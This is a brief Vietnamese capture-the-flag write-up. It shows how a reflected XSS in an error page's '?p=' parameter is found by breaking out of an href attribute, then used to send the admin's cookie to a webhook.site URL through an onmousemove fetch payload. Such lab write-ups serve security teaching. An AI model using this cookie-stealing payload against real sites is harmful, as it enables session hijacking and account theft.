







Challenge: 

Sau khi truy cập trang web: \

Test thử 1 vài chức năng, sau đó thử 1 đoạn url ko có sẵn nó sẽ báo lỗi:

Xem thử source code

ta thấy đoạn path được thêm vào sau `?p=`, ta sẽ thử thoát khỏi thuộc tính href bằng chèn thêm `'`: `' onmousemove='alert(1)`

Kết quả khi ta đưa chuột qua: \

Đến đây ta biết đã có thể XSS, tạo payload để gửi gói tin qua webhook: \
`' onmousemove='fetch("https://webhook.site/1b6e1612-f794-41d6-83a8-8bf67316dbec")`\

Tạo payload để lấy cookie: \
`' onmousemove='fetch("https://webhook.site/1b6e1612-f794-41d6-83a8-8bf67316dbec?c=".concat(document.cookie))`

Bây giờ report cho admin và đợi kết quả: 

